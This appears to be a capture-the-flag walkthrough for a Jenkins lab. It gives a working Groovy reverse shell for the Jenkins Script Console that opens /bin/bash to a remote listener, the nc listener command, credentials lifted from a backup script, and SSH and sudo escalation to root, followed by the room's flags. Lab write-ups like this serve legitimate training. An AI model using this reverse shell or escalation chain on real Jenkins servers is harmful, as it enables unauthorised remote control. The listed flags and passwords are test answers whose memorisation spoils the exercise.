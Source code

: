 Script Console in Jenkins
```groovy
String host="10.10.83.43";
int port=1337;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
on shell
```bash
nc -lvnp 1337
```
this revshell will not display a prompt, but you can run commands
```bash
cat /opt/scripts/backup.sh
```
```
...
username="tracy"
password="13_1n_33"
...
```
```bash
ssh tracy@10.10.151.235
sudo -l
sudo su
```

# Default port for Jenkins
8080

# Password for tracy
13_1n_33

# Root flag
`cat /root/flag.txt`
ezRo0tW1thoutDiD

# error message after removing tracy from sudoers and trying sudo -l
```
admin@jenkins:~$ sudo deluser tracy sudo
tracy@jenkins:~$ sudo -l
```
Sorry, user tracy may not run sudo on jenkins.

# SSH flag
```bash
cat /etc/ssh/sshd_config
```
Ne3d2SecureTh1sSecureSh31l

# Jenkins flag
```bash
cat /var/lib/jenkins/config.xml.bak
```
FullTrust_has_n0_Place1nS3cur1ty
